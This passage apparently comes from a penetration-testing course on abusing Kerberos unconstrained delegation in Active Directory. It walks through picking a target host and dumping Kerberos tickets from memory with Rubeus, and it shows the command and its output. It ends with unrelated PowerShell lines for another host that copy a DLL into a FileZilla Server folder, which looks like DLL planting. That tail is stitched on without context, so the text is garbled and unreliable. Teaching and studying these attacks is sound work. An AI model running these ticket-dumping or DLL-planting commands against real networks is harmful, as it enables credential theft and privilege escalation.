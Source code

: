 > Listing 1 - Enumerating computers with TRUSTED\_FOR\_DELEGATION set

We have two computers in the domain configured with unconstrained delegation: _FILES01_ and _DC01_. Domain controllers are configured with unconstrained delegation by default, so _FILES01_ will be our primary target in this case.

Service accounts can also be configured with unconstrained delegation if the application executes in the context of the service account rather than the machine account

To abuse unconstrained delegation, we must first compromise the computer or service account in question.

At this stage, we must either perform lateral movement onto _FILES01_ or compromise a vulnerable application on that machine. For purposes of demonstration, we'll simply log in to _FILES01_ as the _adam_ user instead, which is also a local administrator on the target system.

When unconstrained delegation is operating normally, the service account hosting the application can freely make use of the forwarded tickets it receives from users. This means if we compromise the service account as part of an attack, we can exploit unconstrained delegation without needing administrative privileges because we already have access to all affected tickets.

In our example, we logged in to _FILES01_ as the _adam_ user as part of our attack simulation. We'll use the administrative privileges to extract any TGTs supplied by users.

To extract the tickets from memory, we'll use _Rubeus_.[4](https://portal.offsec.com/courses/pen-300-9502/learning/attacking-active-directory-52291/attacking-active-directory-52395#fn-local_id_677-4) Rubeus is a C# toolset for Kerberos that offers many of the same features as _Mimikatz_.[5](https://portal.offsec.com/courses/pen-300-9502/learning/attacking-active-directory-52291/attacking-active-directory-52395#fn-local_id_677-5) However, it does not require us to write the tickets to disk in order to reuse them. Rubeus also supports monitoring, which allows us to capture specific tickets depending on our attack scenario.

We'll launch Rubeus from within the **C:\Tools** directory on _FILES01_ using an administrative PowerShell prompt. In this case, we'll use the **Rubeus.exe dump /nowrap** command to dump the current tickets stored in memory. The **/nowrap** is not mandatory, but it makes it easier to copy the content of the ticket for later reuse as they will not be line wrapped.

```
PS C:\Tools> .\Rubeus.exe dump /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3


Action: Dump Kerberos Ticket Data (All Users)

[*] Current LUID    : 0x14a655

  UserName                 : adam
  Domain                   : CORP
  LogonId                  : 0x14a655
  UserSID                  : S-1-5-21-3515682028-2106700410-3524882512-1606
  AuthenticationPackage    : Kerberos
  LogonType                : RemoteInteractive
  LogonTime                : 5/12/2023 3:28:43 AM
  LogonServer              : DC01
  LogonServerDNSDomain     : CORP.COM
  UserPrincipalName        : adam@corp.com


    ServiceName              :  krbtgt/CORP.COM
    ServiceRealm             :  CORP.COM
```

[files02]: PS>
[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"